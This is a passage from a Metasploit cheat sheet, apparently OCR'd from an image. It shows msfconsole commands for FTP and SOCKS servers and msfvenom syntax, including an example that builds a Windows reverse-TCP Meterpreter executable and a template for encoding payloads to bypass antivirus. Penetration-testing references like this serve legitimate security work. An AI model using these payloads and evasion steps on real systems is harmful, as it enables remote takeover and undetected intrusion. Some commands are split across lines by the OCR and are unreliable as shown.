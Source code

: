 ### FTP Server:

```
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
```

### Proxy Server:

```
msf > use auxiliary/server/socks4
msf > run 
```

## msfvenom :

The msfvenom tool can be used to generate Metasploit payloads (such as Meterpreter) as standalone files and optionally encode 
them. This tool replaces the former msfpayload and msfencode tools. Run with ‘'-l payloads’ to get a list of payloads.

```
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```

Example :

Reverse Meterpreter payload as an executable and redirected into a file:

```
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1
LPORT=4444 > met.exe
```

Format Options (specified with –f) --help-formats – List available output formats

exe – Executable
pl – Perl
rb – Ruby
raw – Raw shellcode
c – C code

Encoding Payloads with msfvenom

The msfvenom tool can be used to apply a level of encoding for anti-virus bypass. Run with '-l encoders'
to get a list of encoders.

```
$ msfvenom -p [Payload] -e [Encoder] -f
[FormatType] -i [EncodeInterations]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```
